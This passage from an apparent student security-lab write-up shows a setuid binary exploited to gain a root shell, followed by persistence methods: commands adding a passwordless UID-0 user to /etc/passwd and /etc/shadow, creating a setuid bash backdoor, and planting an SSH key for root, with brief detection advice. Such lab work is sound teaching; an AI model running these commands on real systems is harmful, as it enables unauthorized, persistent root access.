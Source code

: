 ```
addhostalias $(python exploit.py) f x
```

Since the binary `addhostalias` belongs to the `root` user, and the `-s` flag is enabled, which means that when executing it, our effective UID becomes `0`, enabling the shellcode to set the new shell's UID/GID to 0. 

![屏幕截图 2025-05-01 150016](D:\chalmers\language_based_sec\labs\Language-based_security\lab2\屏幕截图 2025-05-01 150016.png)

And then we get access to a root shell as expected.

![image-20250424192902149](屏幕截图 2025-04-24 192858.png)

The memory layout of this exploitation is as follows:

![屏幕截图 2025-05-01 144543](D:\chalmers\language_based_sec\labs\Language-based_security\lab2\屏幕截图 2025-05-01 144543.png)

## 2. Persistent Access

After getting a temporary root shell access, there are various ways to make it persistent.

### 2.1 Create a New Root User

Add a user with `UID=0`. This approach can be easily detected by monitoring `/etc/passwd` and `/etc/shadow` files.

```shell
echo 'hacker::0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'hacker:$6$passwd:19000:0:99999:7:::' >> /etc/shadow
```

### 2.2 Create a Backdoor Shell

Create a new copy of the shell and make the set-UID bit enabled.

```shell
cp /bin/bash /tmp/notabackdoor
chmod +s /tmp/notabackdoor
```

Since a new file is created, it is easily to detect.

### 2.2  Add Backdoor SSH keys

Drop in our public key to root’s authorized keys:

```shell
mkdir -p /root/.ssh
echo "ssh-rsa AAAA... amamiya@mikufan.tv" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### 2.3 General Countermeasures

All the aforementioned methods to make the illegal root access persistent have to modify important files or create new files. Therefore, monitoring important files, such as SSH keys and Linux user/password files, is extremely important. 
